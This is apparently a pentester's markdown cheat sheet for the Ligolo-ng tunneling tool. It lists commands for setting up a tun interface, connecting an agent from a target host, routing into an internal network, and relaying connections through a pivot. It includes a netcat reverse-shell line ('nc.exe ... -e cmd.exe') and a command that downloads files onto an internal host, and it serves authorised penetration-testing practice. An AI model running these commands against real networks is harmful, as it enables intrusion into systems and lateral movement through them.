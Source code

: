 ```yaml
---
tags:
  - tool
  - tunneling
---
```

# Ligolo-ng

a _simple_, _lightweight_ and _fast_ tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a **tun interface** (without the need of SOCKS) - [ligolo-ng](https://github.com/nicocha30/ligolo-ng)

```bash
# Configure the network interface
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up

# Cleanup the network interface (automatically performed on reboot)
sudo ip link delete ligolo
```

See [Youtube](https://www.youtube.com/watch?v=DM1B8S80EvQ)

## Capabilities

```bash
# Start agent on kali
~/compiled_binaries/ligolo/proxy -selfcert

# Connect to agent on target
.\agent.exe -connect $OUR_IP:11601 -retry -ignore-cert
```

### Establish tunnel

**In Logolo session:**

```bash
# Select session
session

# Check interface information
ifconfig
```

**In normal terminal:**

```bash
# Add routing information to global routing table
sudo ip route add $TARGET_CIDR dev ligolo

# Confirm routing information
ip r
```

**In Logolo Session:**

```bash
# Start the tunnel
start
```

### Forward Reverse Shell Connections

**In Logolo session:**

```bash
# Setup listener
listener_add --addr 0.0.0.0:443 --to 127.0.0.1:443

# Check listeners
listener_list
```

**In normal terminal:**

```bash
# On kali machine
rlwrap -crA nc -lvnp 9001

# On internal host
.\nc.exe $PIVOT_IP 9001 -e cmd.exe
```

### Upload Files

**In Logolo session:**

```bash
# Setup listener for uploading files with python simple http server
listener_add -addr 0.0.0.0:9002 --to 127.0.0.1:80
```

**In normal terminal:**

```bash
# On kali machine
python3 -m http.server 80

# On internal host
iwr -uri http://$PIVOT_IP:9002/example.txt -outfile example.txt
```
